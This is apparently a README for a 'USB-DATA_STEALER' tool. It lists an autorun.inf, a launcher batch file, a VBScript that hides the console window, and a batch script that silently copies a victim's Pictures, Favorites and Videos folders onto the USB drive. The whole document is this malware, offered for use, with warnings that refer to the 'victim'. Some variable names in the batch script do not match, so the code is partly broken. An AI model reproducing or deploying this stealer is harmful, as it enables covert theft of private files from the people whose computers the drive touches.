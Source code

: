 ## USB-DATA_STEALER

#### ONCE YOU START THE AUTORUN, YOU CAN ONLY GO BACK WITH DISCONNECT THE USB DRIVER. THINK TWICE! ALSO YOU DON'T HAVE ANY DEFENDER FOR VIRUS AND HARMFUL FILES/FOLDERS COMES FROM VICTIM. THINK TWICE

# start the autorun
###### YOU PRESSED THE RED BUTTON! BE CALM...
## autorun.inf
[autorun]
icon=drive.ico
open=launch.bat
action=Click OK to Run
shell\open\command=launch.bat

## file.bat
@echo off 
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\vids"
@echo off
cls

## invisible.vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False

## launch.bat
wscript.exe \invisible.vbs file.bat
